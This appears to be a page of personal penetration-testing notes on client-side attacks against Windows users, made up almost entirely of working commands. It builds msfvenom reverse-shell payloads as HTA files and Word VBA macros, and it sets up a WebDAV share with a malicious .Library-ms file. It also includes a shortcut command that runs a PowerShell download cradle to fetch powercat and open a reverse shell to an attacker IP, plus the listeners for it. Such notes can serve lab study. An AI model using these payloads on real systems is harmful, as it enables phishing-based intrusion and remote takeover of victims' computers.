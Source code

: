 ### http application attack(works against Internet Explorer and to some extent Microsoft Edge)
```
1. msfvenom -p windows/shell_reverse_tcp(windows/x64/shell_reverse_tcp,windows/x64/meterpreter/reverse_tcp) LHOST=10.11.0.4 LPORT=4444 -f hta-psh -o evil.hta
```

### office word macro development(vba script)
```
1. msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.4 LPORT=4444 -f vba -o evil
2. open word document and edit macro, copy paste then save as doc,docm,docx
3. open a listener
```

### Evading Protected View
>This Microsoft Word document is highly effective when served locally, but when served from the Internet, say through an email or a download link, we must bypass another layer of protection known as Protected View,1 which disables all editing and modifications in the document and blocks the execution of macros or embedded objects.

### Windows library files
```
kali:
pip3 install wsgidav
mkdir /home/kali/webdav
touch /home/kali/webdav/test.txt
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/

Windows:
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2(LHOST)</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
Save as config.Library-ms

Create .Ink shotcut file with command:
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');
powercat -c 192.168.119.3 -p 4444 -e powershell"
Save as automatic_configuration,put it in Lhost's webdav folder

nc -nlvp 4444
python3 -m http.server
```

